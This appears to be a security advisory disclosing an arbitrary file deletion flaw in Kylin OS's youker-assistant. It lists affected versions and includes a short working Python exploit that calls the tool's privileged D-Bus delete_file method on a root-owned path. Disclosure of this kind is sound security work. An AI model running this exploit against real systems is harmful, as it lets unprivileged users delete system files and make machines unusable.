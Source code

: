 # Kylin OS youker-assistant arbitrary file delete vuln

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
## Report
### Describe
youker-assistant is an integrated tool on KylinOS Desktop to help perform daily system maintenance tasks. The delete_file in this program has an arbitrary file deletion vulnerability, which can cause the system to be unavailable.
### Hazard level
High
### Affected version
- youker-assistant < 3.0.2-0kylin6k70-23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
import dbus

filepath = "/root/test"

bus = dbus.SystemBus()

obj = bus.get_object('com.kylin.assistant.systemdaemon','/com/kylin/assistant/systemdaemon')

obj.delete_file(filepath,dbus_interface = 'com.kylin.assistant.systemdaemon')
```
